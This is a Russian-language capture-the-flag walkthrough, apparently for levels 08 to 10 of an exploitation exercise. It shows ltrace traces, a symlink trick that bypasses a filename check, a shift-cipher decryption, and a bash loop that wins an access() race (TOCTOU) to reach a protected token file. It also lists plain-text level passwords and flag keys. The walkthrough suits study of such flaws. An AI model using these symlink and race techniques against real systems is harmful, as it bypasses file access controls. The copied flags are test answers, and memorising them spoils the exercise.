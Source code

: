 ## level08 (fiumuikeil55xe9cu4dood66h)

* Доступа к файлу token нет
* В директории видим файл level08 это исполняемый файл, выпоним `ltrace ./level08 token`
получим:
```
__libc_start_main(0x8048554, 2, 0xbffffd74, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token"You may not access 'token') = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
* Видим что входной файл тупо сравнивается со сторокой token сделаем символьную ссылку на этот файл
* `ln -s /home/user/level08/token /tmp/level08`
* `./level08 /tmp/level08`
* незабыть сделать getflag (ключ для получения флага - quif5eloekouj29ke0vouxean)

## level09 (25749xKZ8L7DkSCwJkT9dyv6f)

* Есть token и исполняемый файл, после нескольких тестов стало понятно, что с помощью этого файла зашифровали токен и результат положили в файл token
* aaa -> abc, 111 -> 123
* для расшифровки нужно просто из каждого символа вычесть порядковый номер
* незабыть сделать getflag (ключ для получения флага - f3iji1ju5yuevaus41q1afiuq)

## level10 (s5cAJpM8ev6XHw998pRWG728z)

* Заметим что ./level10 подключается к ресурсу который висит на порте 6969 `./level10 / 192.16.188.130`
* Запустим с ltrace `ltrace ./level10 / 192.16.188.130`
Получим:
```
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/", 4)= 0
printf("Connecting to %s:6969 .. ", "192.16.188.130")= 37
fflush(0xb7fd1a20Connecting to 192.16.188.130:6969 .. )= 0
socket(2, 1, 0)= 3
inet_addr("192.16.188.130")= 0x82bc10c0
htons(6969, 1, 0, 0, 0)= 14619
connect(3, 0xbffff71c, 16, 0, 0^C <unfinished ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```
* Видим что программа сначала вызывает `access` - у этой функции есть уязвимость (https://stackoverflow.com/questions/7925177/access-security-hole)
* План такой: создаем файл пустышку -> дергаем программу с этим файлом (в отдельном потоке) -> пока происходит проверка, удаляем файл и создаем символьную ссылку на токен
Фейковый скрипт
```
#!/bin/bash

while true; do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
done
```
